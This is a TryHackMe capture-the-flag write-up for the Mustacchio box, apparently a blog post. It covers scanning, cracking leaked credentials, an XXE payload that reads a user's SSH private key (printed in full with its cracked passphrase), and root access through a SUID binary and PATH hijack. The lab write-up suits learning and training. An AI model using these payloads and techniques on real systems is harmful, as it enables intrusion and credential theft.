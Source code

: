 ```yaml
---
layout: post
title: Mustacchio CTF
published: true
---
```


Well hello people. This is a writeup of the Mustacchio CTF from Tryhackme. 
It was rated as a easy level box and it’s a really interesting challenge so 
without further due let’s start the hack.

![]({{site.baseurl}}/images/mustacchio/mustache.png)

Room : [Mustacchio](https://tryhackme.com/room/mustacchio)

## Nmap Scanning

>  nmap -p- IPADDR

We get the following ports open :

 - 22 ssh
 - 80 http
 - 8765 ultraseek-http

So after scanning we know there is a website running on this machine so lets hope on to it and have a look.

![]({{site.baseurl}}/images/mustacchio/site.png)

## Go Gobuster!!!

> gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/common.txt

![]({{site.baseurl}}/images/mustacchio/gobuster.png)

After the scan you can see we got some directories. Most of them are dead ends but the `custom` has a .bak file in it. After downloading it we can see that it is some sort of a SQL backup file with some credentials.

![]({{site.baseurl}}/images/mustacchio/bak.png)

After using crackstation to crack the password we get the following credentails :

``` admin:bulldog19 ```

Now, lets check the 8765 port 

![]({{site.baseurl}}/images/mustacchio/login-page.png)

We get this login page. Hmm... let try those credential we just found. 

![]({{site.baseurl}}/images/mustacchio/xxe.png)

And we are in! Lets look at the source code.

![]({{site.baseurl}}/images/mustacchio/source.png)

We see these two intersting comments. The 2nd one tells us a username for the SSH login which is Barry. The 1st is looks like a path. After checking the path we get a dontforget.bak file with some XML code written in it.

## XXE

We can try to read the id_rsa file on barry from the machine by attempting binding a payload to the sample XML code we got from the dontforget.bak file

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

And we get the id_rsa but we have to format it properly by adding spaces and line breaks otherwise it will give an error while logging it.


> -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E
jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----



## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

> /opt/johnTheRipper/ssh2John.py id_rsa  hash

> john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passphrase : ``` urieljames```

## Loggin into SSH

After loggin in we get the user flag right away

![]({{site.baseurl}}/images/mustacchio/loginSSH.png)

## Privilege escalation

Lets look for SUIDs to exploit as it is given in the hint

> find / -perm -u=s -type f 2>/dev/null

We get a binary called live_log in joe's directory and luckily we can move into his directory as well.
After using strings on the binary file we see this interesting line

> tail -f /var/log/nginx/access.log

Intresting. Lets use this to gain root. Lets create a file named tail and make it executable and a script to get root. We also have to change the path to our file 

> echo "/bin/bash" > tail

> chmod +x tail

> export PATH=/tmp:$PATH

Now lets run the `live_log` binary.

![]({{site.baseurl}}/images/mustacchio/root.png)

And that's it. We got root. This was a fun box. Though i have to admit i had to take some hints on the way but still it was a great learning experience. Hope you enjoyed this as well :)
